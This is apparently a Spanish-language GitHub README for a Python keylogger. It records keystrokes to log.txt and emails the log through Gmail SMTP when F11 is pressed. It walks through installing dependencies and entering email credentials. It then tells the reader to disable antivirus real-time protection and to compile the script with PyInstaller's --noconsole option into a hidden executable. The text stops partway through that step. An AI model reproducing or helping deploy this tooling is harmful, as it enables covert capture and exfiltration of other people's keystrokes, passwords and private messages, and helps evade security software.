 # 🖥️ KeyLogger en Python  

Este es un **KeyLogger** desarrollado en Python que registra las teclas presionadas y las guarda en un archivo `log.txt`. Además, permite enviar el registro por correo electrónico presionando `F11` y cerrar el programa con la tecla `ESC`.  

## 📌 Instalación de Dependencias en Python

Antes de ejecutar el keylogger, asegúrate de instalar las bibliotecas necesarias.

## 📌 Requisitos

🔹 Python 3.x instalado en tu sistema.
🔹 Conexión a Internet para descargar las dependencias.

## 🚀 Instalación de Dependencias

### 1️⃣ Instalar `pynput` para Captura de Teclado

El módulo `pynput` permite registrar las teclas presionadas en el sistema. Instálalo con:

```bash
pip install pynput
```

### 2️⃣ Instalar `smtplib` y `email` para Envío de Correos

El módulo `smtplib` ya está incluido en Python, pero `email` se usa para estructurar los mensajes de correo. Se recomienda actualizar `email` con:

```bash
pip install secure-smtplib
```

### 3️⃣ Verificar Instalación

Después de instalar las dependencias, verifica que se hayan instalado correctamente ejecutando:

## ✉️ Configuración del Correo

Abre el archivo y reemplaza los siguientes valores con tu información:

Como configurar el email para que puedas enviar correos: Link de Youtube[https://www.youtube.com/shorts/Tuyai2xNwvE]
```python
mensaje["From"] = "tucorreo@gmail.com"
mensaje["To"] = "destinatario@gmail.com"
server.login("tucorreo@gmail.com", "tu_contraseña")
server.sendmail("tucorreo@gmail.com", "destinatario@gmail.com", mensaje.as_string().encode('utf-8'))
```

🔹 **Usa una contraseña de aplicación en lugar de tu contraseña real para mayor seguridad.**

# 🖥️ KeyLogger en Python  

Este es un **KeyLogger** desarrollado en Python que registra las teclas presionadas y las guarda en un archivo `log.txt`. Además, permite enviar el registro por correo electrónico presionando `F11` y cerrar el programa con la tecla `ESC`.  

---

## 🚀 1️⃣ Inicio del KeyLogger  
Para ejecutar el KeyLogger, abre la terminal y ejecuta:  

```bash
python KeyLogger_Mail.py
```

Al iniciarse, mostrará el siguiente mensaje en la terminal:  

```
(+) Se inició el KeyLogger
```

![Inicio del KeyLogger](./img_keylogger/start.png)

---

## ⏹️ 2️⃣ Cerrar el KeyLogger  
Para **detener la ejecución**, simplemente presiona la tecla `ESC`. Esto cerrará el programa inmediatamente.  

![Cerrar KeyLogger con ESC](./img_keylogger/prueba.png)

---

## 📩 3️⃣ Enviar el registro por correo  
Si presionas la tecla `F11`, el KeyLogger **enviará el archivo `log.txt` a través de un correo electrónico**.  

![Correo recibido con log.txt](./img_keylogger/email.png)

---

![Correo recibido con log.txt](./img_keylogger/prueba_email.png)

# 🛠️ Crear un Archivo Ejecutable (.exe) con PyInstaller

Para convertir el script en un archivo ejecutable `.exe`, es necesario utilizar `pyinstaller`. Antes de proceder, **desactiva tu antivirus**, ya que podría detectar el keylogger como una amenaza y eliminarlo.

🔹 Instalar pyinstaller

```bash
pip install pyinstaller
```

### 🚨 Desactivar Antivirus

🔹 Desactiva temporalmente la protección en tiempo real de tu antivirus antes de ejecutar el siguiente comando puede saltar un error asi.

![Desactivar Antivirus](./img_heylogger/keylogger_antivirus.png)

### 🔹 Generar el Archivo .exe

Ejecuta el siguiente comando en la terminal dentro de la carpeta donde se encuentra `KeyLogger_Mail.py`:

```bash
pyinstaller --onefile --noconsole keylogger.py
